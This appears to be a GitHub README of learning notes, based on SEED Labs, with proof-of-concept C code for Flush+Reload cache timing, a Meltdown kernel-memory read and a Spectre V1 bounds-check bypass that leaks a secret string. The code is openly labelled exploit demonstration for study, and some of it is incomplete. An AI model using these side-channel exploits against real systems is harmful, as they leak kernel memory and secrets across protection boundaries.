




# The Proof of Concept with meltdown and Spectre

* those simple cases are base on SEED Labs:[SEEDLab project](https://seedsecuritylabs.org/labs.html).
* only for learning proposes
* if you have any questions about those simple proof cases welcome contact me by email :`leeyang1109@163.com`

<hr>

## Flush+Reload

### References

* [Click to flush+relaod github project](https://github.com/hjdrahub/flush-reload.git)
  
  ```
  git clone https://github.com/hjdrahub/flush-reload.git
  ```
  
* [23th USENIX paper-Yarom](https://www.usenix.org/conference/usenixsecurity14/technical-sessions/presentation/yarom)
 

### Proof of Concept for Flush+Reload(`flush_reload.c`)

get cache hit cycles:

```c
uint8_t array[10*4096];
int main(int argc, const char **argv) {
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  // 初始化arrayy以免内存不分配空间
  for(i=0; i<10; i++) array[i*4096]=1;
  // 将Cache中array的值flush
  for(i=0; i<10; i++) _mm_clflush(&array[i*4096]);
  // 访问一些基本的数组
  array[3*4096] = 100;
  array[7*4096] = 200;
  array[10*4096] = 255;
  for(i=0; i<10; i++) {
    addr = &array[i*4096];
    time1 = __rdtscp(&junk);                
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;       
    printf("array[%d*4096] access time: %d CPU cycles\n",i, (int)time2);
  }
  return 0;
}

```
flush+reload is a high resolution low noise cache side channel attack which is prove by Yarom in USENIX Security Symposium. the basic idea to implement the CSCA.
firstly,we need to caculate the differnece between cache missing and cache hit,so that we can get threshold. the simple method is observe  CPU cycles when the cache hit by instruction`rdstc`.
`rdstc` return a level 32bit binary number when access the memory which address is provided.
`__rdtscp` Generates the rdtscp instruction, writes TSC_AUX[31:0] to memory, and returns the 64-bit Time Stamp Counter (TSC) result.

```c
uint8_t array[256*4096];
int temp;
unsigned char secret = 94;
/* 假设Cache hit的阈值为80*/
#define CACHE_HIT_THRESHOLD (80)
//设置偏移量DELTA 任意0-4096偏移量都会将其所在的整个page加入Cacheline
#define DELTA 1024

void victim()
{
  temp = array[secret*4096 + DELTA];
}

void flushSideChannel()
{
  int i;
  // 向数组中写数据将其带入RAM 防止 Copy on Write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //将数组从Cache Line中清除
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}

void reloadSideChannel() 
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
     addr = &array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);//返回时间计数器的值
     junk = *addr;//获取这个地址内存中的值
     time2 = __rdtscp(&junk) - time1;//获取时间差
     
     //若访问这个地址的时间差小于threshold 则判定cache hit
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n",i,DELTA);
         printf("Victim's Secret:%d.\n",i);
     }
  }
}

```

<hr>

## Meltdown

### References

* [Download:27th USENIX-Meltdown: Reading Kernel Memory from User Space.pdf](https://www.usenix.org/system/files/conference/usenixsecurity18/sec18-lipp.pdf)

* [Meltdown github](https://github.com/IAIK/meltdown.git)
  ```
  git clone https://github.com/IAIK/meltdown.git
  ```

* [SEED Lab project:Meltdown](https://seedsecuritylabs.org/Labs_20.04/System/Meltdown_Attack/)

### Out-of-Order Execution



### Proof of Concept for Out-of-Order Execution(`MeltdownExperiment.c`)

the whole code are as follows:

```c
uint8_t array[256*4096];
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;
  //下述语句会造成异常
  kernel_data = *(char*)kernel_data_addr;
  //array[kernel_data * 4096 + DELTA] += 1;
  array[7 * 4096 + DELTA] += 1;
}

void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                
       "add $0x141, %%eax;"
       ".endr;"                    
    
       :
       :
       : "eax"
   ); 
  //下述语句会造成异常
   kernel_data = *(char*)kernel_data_addr;  
  //无序执行会执行这一步
   array[kernel_data * 4096 + DELTA] += 1;           
}

int main()
{
  // Register a signal handler
  signal(SIGSEGV, catch_segv);
  flushSideChannel(); 
  if (sigsetjmp(jbuf, 1) == 0) {
     meltdown(0xfb61b000);//inaccessible kernel address
  }
  else {
      printf("illegal memory access!\n");
  }
  reloadSideChannel();                     
  return 0;
}

```
The success or failure of the program execution is contingent,the meltdown attack result are as follows:


<hr>


## Spectre V1

```c

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;

uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 

char    *secret    = "Ningxia University";  

uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

//////////////////////////////////////////////////////////////
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  } 
}
///////////////////////////////////////////////////////////////
void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;
  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) { 
      restrictedAccess(i); 
  }
  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }
  // Ask restrictedAccess() to return the secret in out-of-order execution. 
  s = restrictedAccess(index_beyond);  
  array[s*4096 + DELTA] += 88;  
}
//////////////////////////////////////////////////////
void bounds_check_bypass(){
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);
  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
}

int main() {
  bounds_check_bypass();
  return (0);
}

```
`SpectreAttack.c`result:

execute `SpectreAttackImproved.c` to get the number of cache hit about 1000 times experiment
the result are as follows:
